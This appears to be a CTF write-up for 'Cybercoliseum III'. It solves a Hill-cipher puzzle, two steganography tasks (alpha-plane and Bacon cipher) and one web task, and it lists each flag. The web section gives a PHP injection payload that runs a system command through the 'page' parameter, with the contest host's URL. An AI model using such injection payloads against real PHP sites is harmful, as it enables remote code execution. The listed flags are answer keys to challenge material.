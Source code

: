 # Cybercoliseum Ⅲ Write-up

## Crypto 

### Crypto - Hills

Cipher

    -------------------------
    |76 |101|115|116|101|114|
    -------------------------
    |32 |83 |97 |110|100|101|
    -------------------------
    |114|115|32 |115|104|111|
    -------------------------
    |117|108|100|32 |104|101|
    -------------------------
    |108|112|32 |121|111|117|
    -------------------------
    |32 |58 |41 |41 |41 |42 |
    -------------------------
    
    KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 

This is `Hill Cipher`, see how it works or use an online decoder

https://www.dcode.fr/hill-cipher

![image](https://github.com/zer00d4y/writeups/assets/128820441/9ecc3648-419b-420c-810b-610e830a553b)

FLAG:

    CODEBY{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}

## WEB

### WEB - Old version

![image](https://github.com/zer00d4y/writeups/assets/128820441/593b6532-10e1-492c-9145-ee326ab772ca)

Here we see that this is an LFI vulnerability.

Payload:         
            
        ' and die(system("cat index.php")) or '

http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '

FLAG:

    CODEBY{php_lf1_t0_rc3_d0ne}

## Steganography

### Stego - Omniscient

![Omniscient](https://github.com/zer00d4y/writeups/assets/128820441/571b6a77-6ef2-4a46-9bca-d6336364c01a)

Use stegsolve or other tools and set `Alpha plane 1` mode 

Stegsolve: https://github.com/zer00d4y/stegsolve

![image](https://github.com/zer00d4y/writeups/assets/128820441/f373baee-8cdb-4be7-8b9b-e70c69556b54)

FLAG: 

    CODEBY{4nd_i_c4n_se3}

### Stego - Neural network

![task](https://github.com/zer00d4y/writeups/assets/128820441/42ed85de-1a92-4a22-a9bb-a4f23c734489)

We see that one sentence is written with different case

Replace small letters with A, capital letters with B

`In TexT steGaNograpHY, the SECRet MEsSage Is tYPiCallY emBdded bY making suBtIE MOdiFIcATioNs`

`BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA`

[Bacon Cipher decoder](https://www.dcode.fr/bacon-cipher)

FLAG:

    CODEBY{URIGHTITISBAC?NS}
